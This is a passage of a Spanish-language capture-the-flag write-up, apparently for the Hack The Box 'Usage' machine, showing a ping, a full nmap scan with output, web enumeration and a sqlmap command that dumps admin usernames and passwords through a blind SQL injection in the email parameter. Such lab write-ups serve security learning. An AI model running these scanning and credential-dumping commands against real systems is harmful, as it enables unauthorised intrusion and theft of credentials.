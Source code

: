 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

